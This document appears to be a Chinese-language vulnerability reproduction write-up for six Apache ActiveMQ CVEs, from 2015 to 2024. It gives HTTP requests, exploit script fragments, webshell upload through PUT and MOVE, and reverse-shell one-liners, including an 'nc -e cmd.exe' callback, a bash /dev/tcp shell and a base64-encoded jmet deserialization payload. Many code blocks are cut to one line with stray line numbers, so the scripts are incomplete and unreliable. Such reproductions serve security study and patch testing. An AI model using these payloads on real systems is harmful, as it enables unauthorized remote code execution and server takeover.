


Apache ActiveMQ Jolokia REST API 未授权访问漏洞（CVE-2024-32114） 0x01 利用条件 权限要求：无需权限
其他条件：允许远程访问
0x02 影响版本 6.0.0 <= Apache ActiveMQ < 6.1.2
0x03 漏洞复现 访问/api/jolokia可看到相关信息
获取AactiveMQ代理消息
1 2 3 4 5 6 7 8 9 10 GET /api/jolokia/read/org.apache.activemq:type=Broker,brokerName=localhost HTTP/1.1
列出所有队列
1 2 3 4 5 6 7 8 9 10 GET /api/jolokia/read/org.apache.activemq:type=Broker,brokerName=localhost,destinationType=Queue,destinationName=* HTTP/1.1
向队列发送消息，从上面知道有队列“1”。
1 2 3 4 5 6 7 8 9 10 11 12 POST /api/message/1 HTTP/1.1
删除队列中的消息
1 2 3 4 5 6 7 8 9 10 11 12 13 POST /api/jolokia/ HTTP/1.1
Apache ActiveMQ 远程代码执行漏洞(CVE-2023-46604) 0x01 利用条件 权限要求：无需权限
其他条件：允许远程访问
0x02 影响版本 Apache AchtiveMQ <= 5.18.2
0x03 漏洞复现 
编写一个python脚本，需要远程加载poc.xml进行利用，因此需要在poc所在目录利用python搭建一个简易的http服务
1 python -m http.server 8000
exploit.py详细代码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 import socket
poc.xml利用文件代码
1 2 3 4 5 6 7 8 9 10 11 12 13 <?xml version="1.0" encoding="UTF-8" ?>
运行exploit.py，输入目标ip和端口，以及搭建的简易http服务链接
1 python exploit.py -i 192.168.0.107 -p 61616 -u http://127.0.0.1:8000/poc.xml
反弹shell操作：在攻击机开启nc端口，编写poc.xml输入攻击机ip
1 2 3 4 5 6 7 8 9 10 11 12 13 14 <beans xmlns="http://www.springframework.org/schema/beans"
成功接收到shell
Apache ActiveMQ Jolokia代码执行漏洞（CVE-2022-41678） 0x01 利用条件 权限要求：admin权限
其他条件：Jolokia允许远程监控和管理
0x02 影响版本 Apache ActiveMQ < 5.16.6
5.17.0< Apache ActiveMQ < 5.17.4
0x03 漏洞复现 Jolokia允许通过HTTP接口与JVM中的MBean，从而实现对应用程序进行监控、管理和配置。ActiveMQ配置了Jolokia服务可通过/api/Jolokia端口操作MBean。
post到/api/jolokia/返回200，漏洞可利用
1 2 3 4 5 6 7 8 9 10 11 12 13 14 POST /api/jolokia/ HTTP/1.1
poc地址：https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2022-41678/poc.py （poc过长，在这里不做过多的展示）
通过poc.py上传jsp webshell
反弹shell
1 nc 192.168.244.143 4444 -e cmd.exe
ActiveMQ 信息泄漏漏洞(CVE-2017-15709) 0x01 利用条件 权限要求：无需权限
0x02 影响版本 Apache ActiveMQ <= 5.15.2
0x03 漏洞复现 nmap探测目标开放端口
1 nmap -p- -A -O 192.168.244.143
61616为Apache ActiveMQ消息队列，使用了OpenWire协议，暴露相关的信息。
Apache ActiveMQ任意文件写入漏洞(CVE-2016-3088) 0x01 利用条件 权限要求：无需权限
其他条件：开启fileserver应用，开启PUT请求
0x02 影响版本 Apache ActiveMQ < 5.14.0
0x03 漏洞复现 ActiveMQ fileserver服务具有文件写入权限，但本身没有权限限制。
直接访问：
无cookies上传，写入文件
由于fileserver不能上传jsp文件，因此先上传webshell.txt文件，后续利用MOVE转移到能执行的目录。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 PUT /fileserver/webshell.txt HTTP/1.1
通过默认口令查看绝对路径
MOVE转移到/opt/activemq/webapps/api/路径下，并修改文件后缀为可利用后缀。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 MOVE /fileserver/webshell.txt HTTP/1.1
反弹shell操作
写入计划任务
1 2 3 4 5 PUT /fileserver/root.txt HTTP/1.1
转移路径修改包名
1 2 3 4 5 MOVE /fileserver/root.txt HTTP/1.1
成功反弹shell
Apache ActiveMQ反序列化漏洞（CVE-2015-5254） 0x01 利用条件 权限要求：无需权限
0x02 影响版本 Apache ActiveMQ < 5.13.0
0x03 漏洞复现 ActiveMQ默认配置下会启动8161（后台管理系统）和61616（tcp端口），利用nmap进行探测发现端口
1 nmap -p- -A -O 192.168.244.143
ActiveMQ TCP 会序列化数据，通过write protocal序列化字节流。利用jmet制作一个带有命令执行的序列化 Java 消息服务对象（在同目录下创建一个external文件夹）
https://github.com/matthiaskaiser/jmet
反弹shell
1 bash -i >& /dev/tcp/192.168.0.107/4444 0>&1
https://www.toolhelper.cn/EncodeDecode/Base64
1 java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA3LzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.244.143 61616
成功
